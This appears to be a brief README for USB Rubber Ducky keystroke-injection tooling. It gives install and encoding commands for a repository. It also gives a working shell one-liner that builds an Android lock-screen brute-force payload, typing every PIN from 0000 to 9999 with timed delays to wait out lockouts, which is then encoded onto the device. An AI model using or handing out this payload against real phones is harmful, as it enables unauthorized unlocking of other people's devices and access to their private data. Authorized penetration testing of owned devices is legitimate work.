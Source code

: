 # install

```
git clone https://github.com/jbarcia/ducky && cd ducky
```
```
chmod a+rx /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar
```
# use 
```
java -jar /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar -i helloworld.txt -o /Volumes/RubberDucky/inject.bin
```

# Android Payload 

```
port install gsed
```
## Create Dictionary 
``` 
echo DELAY 5000 > android_brute-force_0000-9999.txt; echo {0000..9999} | xargs -n 1 echo STRING | gsed '0~5 s/$/\nWAIT/g' | gsed '0~1 s/$/\nDELAY 1000\nENTER\nENTER/g' | gsed 's/WAIT/DELAY 5000\nENTER\nDELAY 5000\nENTER\nDELAY 5000\nENTER\nDELAY 5000\nENTER/g' >> android_brute-force_0000-9999.txt
```

## Copy Payload in Rubber Ducky
``` 
java -jar /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar -i android_brute-force_0000-9999.txt -o /Volumes/RubberDucky/inject.bin
``` 
